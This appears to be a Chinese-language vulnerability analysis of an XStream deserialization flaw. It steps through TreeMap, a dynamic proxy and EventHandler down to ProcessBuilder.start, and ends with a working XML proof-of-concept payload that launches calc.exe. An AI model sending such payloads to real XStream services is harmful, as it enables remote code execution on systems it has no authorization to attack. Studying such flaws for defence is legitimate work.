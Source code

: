 随后会调用父类的也就是Abstract的putAll

![image-20220517171436243](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220517171436243.png)

这里的key ，value就是之前添加到map的

![image-20220517171531339](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220517171531339.png)

跟进put，来到TreeMap的put

![image-20220517171553484](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220517171553484.png)

这里的k就是那个代理类，所以这里会触发对应的EventHandler#invoke方法

![image-20220517171629475](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220517171629475.png)

接着跟进invokeInternal方法

![image-20220517172231034](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220517172231034.png)

这里得到了targetMethod是`ProcessBuilder.start`

![image-20220517172514067](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220517172514067.png)

然后在这里调用到`ProcessBuilder.start`，就可以去执行相应的命令了

![image-20220517172659651](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220517172659651.png)

其实整个流程就是一个解析xml的流程

从`com.thoughtworks.xstream.core.TreeUnmarshaller#start`方法开始解析xml，调用`HierarchicalStreams.readClassType`通过标签名获取Mapper中对于的class对象。获取class完成后调用`com.thoughtworks.xstream.core.TreeUnmarshaller#convertAnother`,该方法会根据class转换为对应的Java对象。`convertAnother`的实现是`mapper.defaultImplementationOf`方法查找class实现类。根据实现类获取对应转换器，获取转换器部分的实现逻辑是`ConverterLookup`中的`lookupConverterForType`方法,先从缓存集合中查找`Converter`,遍历`converters`找到符合的`Converter`。随后，调用`convert`返回object对象。`convert`方法实现逻辑是调用获取到的`converter`转换器的`unmarshal`方法来根据获取的对象，继续读取子节点，并转化成对象对应的变量。直到读取到最后一个节点退出循环。最终获取到java对象中的变量值也都设置，整个XML解析过程就结束了

## POC2

```xml
<tree-map>
    <entry>
        <string>fookey</string>
        <string>foovalue</string>
    </entry>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>calc.exe</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```
